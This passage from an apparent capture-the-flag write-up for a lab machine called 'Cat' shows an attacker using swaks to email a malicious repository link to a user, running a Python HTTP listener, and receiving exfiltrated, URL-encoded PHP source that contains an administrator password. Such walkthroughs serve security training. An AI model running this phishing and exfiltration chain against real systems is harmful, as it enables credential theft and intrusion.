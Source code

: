 ```c
  IPv4 address for eth0: 10.129.73.41
  IPv6 address for eth0: dead:beef::250:56ff:fe94:f934


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


You have mail.
Last login: Fri Jan 31 11:31:57 2025 from 10.10.14.69
axel@cat:~$
```

With `swaks` we send the `URL` to our `malicious repository` to `jobert`.

```c
┌──(kali㉿kali)-[~]
└─$ swaks --server 127.0.0.1 -t jobert@localhost --from axel@cat.htb --header "http://localhost:3000/axel/foobar" --body "http://localhost:3000/axel/foobar"
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Cat/serve]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

To check if `jober` actually checked his `emails` we watched the size of his `mail file` inside `/var/mail/`. If it dropped back to `0` the `mail` was read.

```c
axel@cat:~$ watch ls -la /var/mail/jobert
```

```c
Every 2.0s: ls -la /var/mail/jobert                                                                                
-rw-rw---- 1 jobert mail 494 Feb  2 16:22 /var/mail/jobert
```

After a few seconds we received the `encoded` content of `index.php` which contained the `password` for `administrator`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Cat/serve]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.243.216 - - [02/Feb/2025 18:21:24] "GET /?response=%3C%3Fphp%0A%24valid_username%20%3D%20%27admin%27%3B%0A%24valid_password%20%3D%20%27IKw75eR0MR7CMIxhH0%27%3B%0A%0Aif%20(!isset(%24_SERVER%5B%27PHP_AUTH_USER%27%5D)%20%7C%7C%20!isset(%24_SERVER%5B%27PHP_AUTH_PW%27%5D)%20%7C%7C%20%0A%20%20%20%20%24_SERVER%5B%27PHP_AUTH_USER%27%5D%20!%3D%20%24valid_username%20%7C%7C%20%24_SERVER%5B%27PHP_AUTH_PW%27%5D%20!%3D%20%24valid_password)%20%7B%0A%20%20%20%20%0A%20%20%20%20header(%27WWW-Authenticate%3A%20Basic%20realm%3D%22Employee%20Management%22%27)%3B%0A%20%20%20%20header(%27HTTP%2F1.0%20401%20Unauthorized%27)%3B%0A%20%20%20%20exit%3B%0A%7D%0A%0Aheader(%27Location%3A%20dashboard.php%27)%3B%0Aexit%3B%0A%3F%3E%0A%0A HTTP/1.1" 200 -
```

